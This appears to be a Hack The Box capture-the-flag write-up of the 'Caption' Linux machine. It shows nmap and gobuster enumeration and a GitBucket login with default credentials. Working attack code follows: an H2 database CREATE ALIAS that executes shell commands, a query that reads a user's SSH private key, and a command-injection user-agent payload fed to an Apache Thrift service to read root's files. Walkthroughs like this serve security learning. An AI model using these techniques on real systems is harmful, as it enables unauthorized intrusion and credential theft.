


## MACHINE INFO

> **[Caption](https://app.hackthebox.com/machines/625)** Caption is a Hard-difficulty Linux box, showcasing the chaining of niche vulnerabilities arising from different technologies such as HAProxy and Varnish. It begins with default credentials granting access to GitBucket, which exposes credentials for a web portal login through commits. The application caches a frequently visited page by an admin user, whose session can be hijacked by exploiting Web Cache Deception (WCD) via response poisoning exploited through a Cross-Site Scripting (XSS) payload. HAProxy controls can be bypassed by establishing an HTTP/2 cleartext tunnel, also known as an H2C Smuggling Attack, enabling the exploitation of a locally running service vulnerable to path traversal ([CVE-2023-37474](https://security.snyk.io/vuln/SNYK-PYTHON-COPYPARTY-5777718)). A foothold is gained by reading the SSH ECDSA private key. Root privileges are obtained by exploiting a command injection vulnerability in the Apache Thrift service running as root.


## ENUMERATION
Started off with an nmap scan of the target to identify open ports and services running on them.
```sh
sudo nmap -sCV -T4 10.10.11.33 -vv    
[sudo] password for kai: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-16 02:22 EDT
<---snip--->
Nmap scan report for 10.10.11.33
Host is up, received echo-reply ttl 63 (0.82s latency).
Scanned at 2024-09-16 02:22:13 EDT for 83s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp   open  http       syn-ack ttl 63
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://caption.htb
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad request
|     Content-length: 90
|     Cache-Control: no-cache
|     Connection: close
|     Content-Type: text/html
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|     </body></html>
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 301 Moved Permanently
|     content-length: 0
|     location: http://caption.htb
|_    connection: close
8080/tcp open  http-proxy syn-ack ttl 63
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: GitBucket
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Mon, 16 Sep 2024 06:22:29 GMT
|     Set-Cookie: JSESSIONID=node01je3cfqsebmx71ronsk9lk2be1197752.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 5916
|     <!DOCTYPE html>
|     <html prefix="og: http://ogp.me/ns#" lang="en">
|     <head>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <title>Error</title>
|     <meta property="og:title" content="Error" />
|     <meta property="og:type" content="object" />
|     <meta property="og:url" content="http://10.10.11.33:8080/nice%20ports%2C/Tri%6Eity.txt%2ebak" />
|     <meta property="og:image" content="http://10.10.11.33:8080/assets/common/images/gitbucket_ogp.png" />
|     <link rel="icon" href="/assets/common/ima
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Mon, 16 Sep 2024 06:22:25 GMT
|     Set-Cookie: JSESSIONID=node02zh9709vg0qm1v62n3dbwkv28197414.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 7191
|     <!DOCTYPE html>
|     <html prefix="og: http://ogp.me/ns#" lang="en">
|     <head>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <title>GitBucket</title>
|     <meta property="og:title" content="GitBucket" />
|     <meta property="og:type" content="object" />
|     <meta property="og:url" content="http://10.10.11.33:8080/" />
|     <meta property="og:image" content="http://10.10.11.33:8080/assets/common/images/gitbucket_ogp.png" />
|     <link rel="icon" href="/assets/common/images/gitbucket.png?20240916040429" t
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 16 Sep 2024 06:22:26 GMT
|     Set-Cookie: JSESSIONID=node02y7lxzz3lmsj1ue6xvgfx6nu197496.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|_    <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
<---snip--->
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:23
Completed NSE at 02:23, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:23
Completed NSE at 02:23, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:23
Completed NSE at 02:23, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.81 seconds
		Raw packets sent: 1122 (49.344KB) | Rcvd: 1122 (44.880KB)
```

From the scan results, ports 22,80 and 8080 are open.

### PORT 80 


Accessing the port led to a login page.
I Tried default creds such as `admin:admin`, `admin:password` but none of them worked.

Proceeded with directory enumeration in case there is a directory that may contain any useful information.

```sh
$ gobuster dir -u http://caption.htb/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://caption.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 403) [Size: 94]
/Download             (Status: 403) [Size: 94]
/firewalls            (Status: 302) [Size: 189] [--> /]
/home                 (Status: 302) [Size: 189] [--> /]
/logout               (Status: 302) [Size: 189] [--> /]
/Logs                 (Status: 403) [Size: 94]
/logs                 (Status: 403) [Size: 94]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Directory bruteforcing didn't lead anywhere so I went ahead to look at what port 8080 has.

### PORT 8080


I got redirected to a gitbucket website. Some research on it and I found that it functions just like github, so maybe I can find some configuration files that contain credentials to the portal found on port 80.

To learn more about GitBucket, use the following resource: https://github.com/gitbucket/gitbucket

Accordng to the resource default credentials for admin are usually `root:root`. And it worked!!


Now that I have access to the caption portal repository, I conducted enumeration on it searching for any interesting information or features that could give me a foothold. The repository seemed to be a dead end so I continued to look around and found some interesting information in the system administrator tab.


There is a database on the bucket that may contain some interesting information:


I am able to export the database! I looked into it and found a set of credentials that could possibly be used on  the caption portal but I was unable to crack the hashed password.


So I went back to the the system administrator tab this time focusing on the database viewer.


It seems I am able to query the database on anything, so I tried some SQL statements to get username and ssh keys but the queries returned empty outputs.


## INITIAL FOOTHOLD
Hit yet another dead end! A look at the system settings revealed that gitbucket is using a h2 database


Resources on how to interact with H2 database: 
- https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
- https://www.h2database.com/html/functions.html?highlight=FILE_READ&search=FILE_#firstFound

From the resources, a h2 database has a file read command that let's a user read files stored in the system. So I could use this to get a foothold on the system and get the user flag.

```sh
SELECT FILE_READ('user.txt',NULL);
```

And with that I successfully got the user flag!!!!!


## PRIVILEGE ESCALATION
This is where things get interesting.  I couldn't get the root flag using the same method so what about getting the ssh key of the current user `margo` as seen in the settings tab.

Using application of what was in one of the resources above on interacting with a H2 database and some help, I got the following script:

```sh
CREATE ALIAS RUNEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    java.io.InputStream stream = Runtime.getRuntime().exec(cmd).getInputStream();
    StringBuilder hexOutput = new StringBuilder();
    
    int b;
    while ((b = stream.read()) != -1) {
        hexOutput.append(String.format("%02X", b));  // Convert each byte to its hex representation
    }
    
    return hexOutput.toString();
} $$;
```

**EXPLANATION OF SCRIPT**
The CREATE ALIAS function allows a user to define custom java code and execute the code as part of an SQL query. In the context above, the script will execute a shell command on the underlying operating system and returns the output as a **hexadecimal string**.


After that I used the following command to fetch the ssh key needed to ssh into the target
```sh
SELECT CAST(RUNEXEC('cat .ssh/id_ecdsa') AS VARCHAR);
```

The command calls the `RUNEXEC` function created earlier and reads contents of the ssh key file.
But remember the `RUNEXEC` function outputs content in hex format. The `AS VARCHAR` part of the command will take the hex outout and cast it into a readable format that can be displayed in SQL result section.


Now that I have the ssh key, I have to convert it to text. For this I just used an online hex to text converter


With the key, I can finally ssh as margo.

### PORT 8080 AGAIN
Let's revert back a bit. At the gitbucket there was another repo called `LogService`


The repo contains a golang file `server`


**EXPLANATION OF THE SCRIPT**
The script implements a log service using Apache Thrift technology to process and extract information from log files. A log file is processed line by line extracting the ip address and uder agent and outputing results to a file `logs`

I got particularly interested in 3 sections of the code:
1. The user agent Regex section
2. The logs file that contains ip, user agent and timestamp. Contents of the file then get executed with a new shell being prompted to open and run commands specified in the file.
3. The Apache Thrift Service is running on port 9090 

So as to interact with the service, I used port forwarding 
```sh
ssh -L 9090:127.0.0.1:9090 margo@10.10.11.33 -i id_rsa
```

The idea is to get the contents of the root flag by using a command that will read the contents and output them to a file in the /tmp directory

First I cloned the repo to the target machine. 
After that, I created 2 files:

1. One on the target machine containing the user agent with the file system commands to read the file containing the root flag. The file is on the directory containing the LogService repo: 
```sh
"user-agent":"' && cat /root/root.txt > /tmp/test  #"
```

2. The other is a script on my attack that will interact with the Apache Thrift technology and call onto the `ReadLogFile` function 
```sh
from thrift.transport import TSocket   
from thrift.transport import TTransport   
from thrift.protocol import TBinaryProtocol   
from log_service import LogService      
def main():
    transport = TSocket.TSocket('127.0.0.1', 9090) 
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
    client = LogService.Client(protocol)
    transport.open()
    try:
        response = client.ReadLogFile("/path/to/file")
    except Exception as e:
        print(f"Error: {e}")
    finally:
        transport.close()      

if __name__ == "__main__":
    main()
```

Once that is done I ran the python script on my terminal. Then on the /tmp directory found the file `test` containing the root flag!!!


And with that Caption is pwned!!
